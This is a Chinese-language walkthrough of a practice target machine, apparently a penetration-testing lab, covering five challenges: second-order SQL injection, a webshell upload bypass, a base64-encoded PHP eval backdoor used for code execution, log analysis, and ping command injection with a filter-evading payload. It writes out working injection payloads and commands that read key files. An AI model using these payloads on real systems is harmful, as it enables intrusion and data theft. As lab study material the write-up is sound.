# PTE01靶机练习

## 基础题目一：二阶SQL注入



点击开始答题，会出现用户名登陆界面，已经跟我们说了需要爆破的用户名了，我首先想到了用万能密码，但是登录失败，用题目提示我们的二次SQL注入登录

注册一个test用户



发现因为不是admin用户，因此无法查看KEY



发现有一个重置密码的，有大佬猜测到重置密码处的sql语句可能是

`update user set password="newpwd" where username="username" `

因此可以利用这里进行注入，注册一个用户名为admin'#的账户，则sql语句变为：

``update user set password="newpwd" where username='admin'#'`

此时修改admin'#的密码其实相当于修改admin的密码



成功拿到了key1



## 基础题目二：文件上传突破



第二道题是一道文件上传题，就是要通过上传木马文件，使用蚁剑连接，通过蚁剑拿到key

因为无法看到源代码，所以不知道什么文件被过滤掉了，但是经过我的尝试，起码php(不区分大小写)、php1、htaccess被过滤了，windows特性也不能用。

感觉问题不在后缀，搜了一下发现可能是过滤掉了一句话木马中的eval函数。。。。

图片马+利用大写绕过(是对eval大小写哦！！！)





修改之后放包，发现上传成功，跳转到图片url



尝试用蚁剑连接



蚁剑连接成功，拿到了key2!!!



## 基础题目三：文件包含



一道文件包含题，点击开始答题后习惯性地查看源码，没有任何提示

但是可以发现url中的参数是用file接收的



查看view.html看看有啥发现

跳转到了下面的这个页面



观察源码发现：



代码审计：

​	对W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=进行base64解码后的内容为[@eval(base64_decode($_POST[z0]));]

- 从 `$_POST` 超全局数组中获取数据（假设数据是 base64 编码的），然后将其解码。
- 查找解码结果中 `[` 和 `]` 之间的内容，并用该内容替换整个匹配字符串。
- 由于使用了 `e` 修饰符，替换的内容会被当作 PHP 代码执行。

也就是说这段代码会查找到@eval(base64_decode($_POST[z0]));替换整个匹配字符串的内容，且会被当成PHP代码执行

从代码中可以看出这道题有两个参数，z0是关键参数，因此可以利用z0注入，爆破出key

> 构造payload：Hello=123&z0=system('cat ../key.php');
>
> 注：需要把system('cat ../key.php');经过base64编码为c3lzdGVtKCdjYXQgLi4va2V5LnBocCcpOw==
>
> 故，构造真正的payload：Hello=123&z0=c3lzdGVtKCdjYXQgLi4va2V5LnBocCcpOw==



查看网页源代码，发现key3



## 基础题目四：日志分析

日志分析题

日志分析的目的是通过对日志的分析有效的监控用户网络行为，跟踪网络资源的使用情况，识别异常流量和性能的瓶颈，让我们更好的去规划部署系统的资源，响应故障告警。从而达到一个稳定、安全、高校的系统运营环境。

先下载日志，这里使用NotePad++进行日志分析



可以看到有特别多条日志，不可能一条一条找，所以要进行筛选

（先标记下来需要的，再删除未标记的）



筛选出返回码为200的，即成功的日志

成功筛选到了2000多条，但还是大海捞针



根据经验，攻击者会选择admin或者manage进行攻击，因此筛选出这俩

筛到只剩50多条了，可以开始观察了



锁定backdoor.php这条



回到网页中查看

成功得到了key4！！！



## 基础题目五：命令执行

一道命令执行的题目，也是ping一个ip地址



同样，还是先ping 127.0.0.1，同时注入ls命令，查看当前目录下的所有文件，但是并没有看到key.php



通过cd ../;ls命令注入，发现key.php在上一级的目录，其实不知道有啥用，可能看到key.php就是比较安心



输入cat命令想要查看的时候，发现有敏感字符，我估计是cat被过滤了



上网搜索cat绕过，说可以用more|less|tail绕过，但是再三验证应该就是cat被过滤了

再试看看使用`反斜杠`

> 构造payload：127.0.0.1|c\at ../key.php

显示good luck!!!



查看一下源代码！

芜湖！！找到了！！！

自己做出来的兴奋感真的比看答案来得高得多！！！！



